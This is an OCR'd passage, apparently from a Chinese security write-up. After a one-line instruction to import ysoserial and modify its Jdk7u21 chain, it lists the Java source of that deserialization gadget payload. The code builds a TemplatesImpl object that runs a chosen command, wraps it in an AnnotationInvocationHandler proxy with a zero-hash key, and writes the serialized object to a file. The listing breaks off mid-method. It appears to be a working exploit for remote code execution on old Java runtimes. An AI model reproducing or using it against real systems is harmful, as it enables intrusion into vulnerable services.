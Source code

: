 下载ysoserial使用idea导入之后修改jdk7u21的链

```java
package ysoserial.payloads;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.JavaVersion;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

import javax.xml.transform.Templates;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.LinkedHashSet;

@SuppressWarnings({"rawtypes", "unchecked"})
@PayloadTest(precondition = "isApplicableJavaVersion")
@Dependencies()
@Authors({Authors.FROHOFF})
public class Jdk7u21 implements ObjectPayload<Object> {

    public static boolean serialize(Object obj, String file) {
        try {
            ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream(file));
            os.writeObject(obj);
            os.close();
            return true;
        } catch (Exception e) {
            e.printStackTrace();
        } finally {
            return false;
        }
    }

    public static boolean isApplicableJavaVersion() {
        JavaVersion v = JavaVersion.getLocalVersion();
        return v != null && (v.major < 7 || (v.major == 7 && v.update <= 21));
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(Jdk7u21.class, args);
    }

    public Object getObject(final String command) throws Exception {
        final Object templates = Gadgets.createTemplatesImpl(command);

        String zeroHashCodeStr = "f5a5a608";

        HashMap map = new HashMap();
        map.put(zeroHashCodeStr, "foo");

        InvocationHandler tempHandler = (InvocationHandler) Reflections.getFirstCtor(Gadgets.ANN_INV_HANDLER_CLASS).newInstance(Override.class, map);
        Reflections.setFieldValue(tempHandler, "type", Templates.class);
        Templates proxy = Gadgets.createProxy(tempHandler, Templates.class);

        LinkedHashSet set = new LinkedHashSet(); // maintain order
        set.add(templates);
        set.add(proxy);
```